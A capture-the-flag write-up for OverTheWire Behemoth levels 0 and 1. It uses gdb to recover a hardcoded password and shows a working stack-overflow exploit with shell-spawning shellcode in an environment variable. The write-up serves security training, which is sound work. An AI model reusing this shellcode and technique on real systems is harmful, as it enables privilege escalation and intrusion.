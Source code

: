 ```yaml
---
layout: post
title: behemoth-writeup-00-01
excerpt: "Writeup for L0 & L1 of the Behemoth wargame on overthewire.org."
categories: [writeup]
tags: [itsec, wargame]
---
```


[overthewire / behemoth](http://www.overthewire.org/wargames/behemoth/)

## Level 0 ##

Unlike narnia, in behemoth the source code is not available to us - so let's decompile.

``` shell
behemoth0@behemoth:/behemoth$ gdb -q behemoth0
Reading symbols from behemoth0...(no debugging symbols found)...done.
) set disassembly-flavor intel
(gdb) disass main
Dump of assembler code for function main:
   0x080485a2 <+0>:     push   ebp
   0x080485a3 <+1>:     mov    ebp,esp
   0x080485a5 <+3>:     and    esp,0xfffffff0
   0x080485a8 <+6>:     sub    esp,0x70
   0x080485ab <+9>:     mov    eax,gs:0x14
   0x080485b1 <+15>:    mov    DWORD PTR [esp+0x6c],eax
   0x080485b5 <+19>:    xor    eax,eax
   0x080485b7 <+21>:    mov    DWORD PTR [esp+0x1f],0x475e4b4f
   0x080485bf <+29>:    mov    DWORD PTR [esp+0x23],0x45425953
   0x080485c7 <+37>:    mov    DWORD PTR [esp+0x27],0x595e58
   0x080485cf <+45>:    mov    DWORD PTR [esp+0x10],0x8048720
   0x080485d7 <+53>:    mov    DWORD PTR [esp+0x14],0x8048738
   0x080485df <+61>:    mov    DWORD PTR [esp+0x18],0x804874d
   0x080485e7 <+69>:    mov    DWORD PTR [esp],0x8048761
   0x080485ee <+76>:    call   0x8048400 <printf@plt>
   0x080485f3 <+81>:    lea    eax,[esp+0x2b]
   0x080485f7 <+85>:    mov    DWORD PTR [esp+0x4],eax
   0x080485fb <+89>:    mov    DWORD PTR [esp],0x804876c
   0x08048602 <+96>:    call   0x8048470 <__isoc99_scanf@plt>
   0x08048607 <+101>:   lea    eax,[esp+0x1f]
   0x0804860b <+105>:   mov    DWORD PTR [esp],eax
   0x0804860e <+108>:   call   0x8048440 <strlen@plt>
   0x08048613 <+113>:   mov    DWORD PTR [esp+0x4],eax
   0x08048617 <+117>:   lea    eax,[esp+0x1f]
   0x0804861b <+121>:   mov    DWORD PTR [esp],eax
   0x0804861e <+124>:   call   0x804857d <memfrob>
   0x08048623 <+129>:   lea    eax,[esp+0x1f]
   0x08048627 <+133>:   mov    DWORD PTR [esp+0x4],eax
   0x0804862b <+137>:   lea    eax,[esp+0x2b]
   0x0804862f <+141>:   mov    DWORD PTR [esp],eax
   0x08048632 <+144>:   call   0x80483f0 <strcmp@plt>
   0x08048637 <+149>:   test   eax,eax
   0x08048639 <+151>:   jne    0x8048665 <main+195>
   0x0804863b <+153>:   mov    DWORD PTR [esp],0x8048771
   0x08048642 <+160>:   call   0x8048420 <puts@plt>
   0x08048647 <+165>:   mov    DWORD PTR [esp+0x8],0x0
   0x0804864f <+173>:   mov    DWORD PTR [esp+0x4],0x8048782
   0x08048657 <+181>:   mov    DWORD PTR [esp],0x8048785
   0x0804865e <+188>:   call   0x8048460 <execl@plt>
   0x08048663 <+193>:   jmp    0x8048671 <main+207>
   0x08048665 <+195>:   mov    DWORD PTR [esp],0x804878d
   0x0804866c <+202>:   call   0x8048420 <puts@plt>
   0x08048671 <+207>:   mov    eax,0x0
   0x08048676 <+212>:   mov    edx,DWORD PTR [esp+0x6c]
   0x0804867a <+216>:   xor    edx,DWORD PTR gs:0x14
   0x08048681 <+223>:   je     0x8048688 <main+230>
   0x08048683 <+225>:   call   0x8048410 <__stack_chk_fail@plt>
   0x08048688 <+230>:   leave
   0x08048689 <+231>:   ret
End of assembler dump.
```

The `strcmp` looks interesting. If it doesn't match we jump to `0x8048665`, which prints the string located at `0x804878d`:

``` shell
(gdb) x/s 0x804878d
0x804878d:      "Access denied.."
```

If it does match however:

``` shell
(gdb) x/s 0x8048771
0x8048771:      "Access granted.."
```

Let's find out what `strcmp` is looking at:

``` shell
(gdb) x/10wx $esp
0xffffd6a0:     0xffffd6cb      0xffffd6bf      0xffffd6c0      0x080482d2
0xffffd6b0:     0x08048720      0x08048738      0x0804874d      0x65eb8fe6
0xffffd6c0:     0x796d7461      0x726f6873
(gdb) x/s 0xffffd6cb
0xffffd6cb:     "foo"
(gdb) x/s 0xffffd6bf
0xffffd6bf:     "eatmyshorts"
```

If you run `strings` on the binary, you'll note this string wasn't stored anywhere - and for kicks it was obfuscated with `memfrob`. But sure enough:

``` shell
behemoth0@behemoth:~$ /behemoth/behemoth0
Password: eatmyshorts
Access granted..
$ whoami
behemoth1
$ cat /etc/behemoth_pass/behemoth1
*** password ***
```

## Level 1 ##

Again, we have no source - so we'll have to use `gdb`.

``` shell
behemoth1@behemoth:~$ gdb -q /behemoth/behemoth1
Reading symbols from /behemoth/behemoth1...(no debugging symbols found)...done.
(gdb) set disassembly-flavor intel
(gdb) disass main
Dump of assembler code for function main:
   0x0804845d <+0>:     push   ebp
   0x0804845e <+1>:     mov    ebp,esp
   0x08048460 <+3>:     and    esp,0xfffffff0
   0x08048463 <+6>:     sub    esp,0x60
   0x08048466 <+9>:     mov    DWORD PTR [esp],0x8048530
   0x0804846d <+16>:    call   0x8048310 <printf@plt>
   0x08048472 <+21>:    lea    eax,[esp+0x1d]
   0x08048476 <+25>:    mov    DWORD PTR [esp],eax
   0x08048479 <+28>:    call   0x8048320 <gets@plt>
   0x0804847e <+33>:    mov    DWORD PTR [esp],0x804853c
   0x08048485 <+40>:    call   0x8048330 <puts@plt>
   0x0804848a <+45>:    mov    eax,0x0
   0x0804848f <+50>:    leave
   0x08048490 <+51>:    ret
End of assembler dump.
(gdb) x/s 0x804853c
0x804853c:      "Authentication failure.\nSorry."
```

The disassembly is a little disappointing. It looks like no matter what we input to `gets`, we display the 'Authentication failure' message. But `gets` is in the same family of 'insecure' functions as `scanf`. We can probably overflow:

``` shell
behemoth1@behemoth:~$ python -c 'print "D"*200' | /behemoth/behemoth1
Password: Authentication failure.
Sorry.
Segmentation fault (core dumped)
```

Right. Now let's see what the offset is - `pwntools` to the rescue!

``` shell
behemoth1@behemoth:~$ python -c 'import pwnlib;print pwnlib.util.cyclic.cyclic(200)' | strace /behemoth/behemoth1 2>&1 | tail -n2
--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x61617561} ---
+++ killed by SIGSEGV (core dumped) +++
behemoth1@behemoth:~$ python -c 'import pwnlib;print pwnlib.util.cyclic.cyclic_find(0x61617561)'
79
```

So we'll need to pad 79 bytes before we can overwrite the return address. We'll overwrite that with the address of an environment variable containing our shellcode. Let's start by finding out where this variable, `EGG` will be located. We use a quick `C` program to figure that out.

``` c
#include <stdio.h>
#include <stdlib.h>

int
main(int argc, char* argv[])
{
  printf("%s is at %p\n", argv[1], getenv(argv[1]));
}
```

Compile, and run:

``` shell
behemoth1@behemoth:~$ env -i EGG=$(python -c 'print "\x31\xc0\x31\xdb\x31\xc9\x99\xb0\xa4\xcd\x80\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89\xe1\xcd\x80" ') /home/behemoth1/abc EGG
EGG is at 0xffffdfc0
```

This works because we are unsetting the environment first and the name of our program (`/home/behemoth1/abc`) matches the length of `/behemoth/behemoth1`.

``` shell
behemoth1@behemoth:~$ python -c 'print "D"*79 + "\xc0\xdf\xff\xff"' | env -i EGG=$(python -c 'print "\x31\xc0\x31\xdb\x31\xc9\x99\xb0\xa4\xcd\x80\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89\xe1\xcd\x80" ') /behemoth/behemoth1
Password: Authentication failure.
Sorry.
```

Mmm. No segfault, but no shell. This is probably because the pipe closed. Let's try to keep it open:

``` shell
behemoth1@behemoth:~$ (python -c 'print "D"*79 + "\xc0\xdf\xff\xff"';cat) | env -i EGG=$(python -c 'print "\x31\xc0\x31\xdb\x31\xc9\x99\xb0\xa4\xcd\x80\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89\xe1\xcd\x80" ') /behemoth/behemoth1
Password: Authentication failure.
Sorry.
whoami
behemoth2
cat /etc/behemoth_pass/behemoth2
*** password ***
```

Yay!

